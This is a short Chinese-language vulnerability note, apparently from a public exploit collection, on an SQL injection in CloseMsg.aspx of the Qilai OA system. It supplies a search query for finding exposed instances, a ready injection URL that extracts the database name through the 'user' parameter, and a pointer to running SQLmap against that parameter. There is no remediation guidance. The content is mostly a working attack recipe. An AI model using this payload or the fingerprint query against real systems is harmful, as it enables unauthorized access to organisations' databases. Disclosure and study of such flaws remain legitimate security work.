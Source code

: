 # 启莱OA CloseMsg.aspx SQL注入漏洞

## 漏洞描述

启莱OA CloseMsg.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## 网络测绘

```
app="启莱OA"
```

## 漏洞复现

登录页面如下

存在SQL注入的文件为 CloseMsg.aspx

```plain
http://xxx.xxx.xxx.xxx/client/CloseMsg.aspx?user=' and (select db_name())>0--&pwd=1
```

![qilai-3-1](./images/qilai-3-1.png)

使用SQLmap对参数 user 进行注入

![qilai-3-2](./images/qilai-3-2.png)
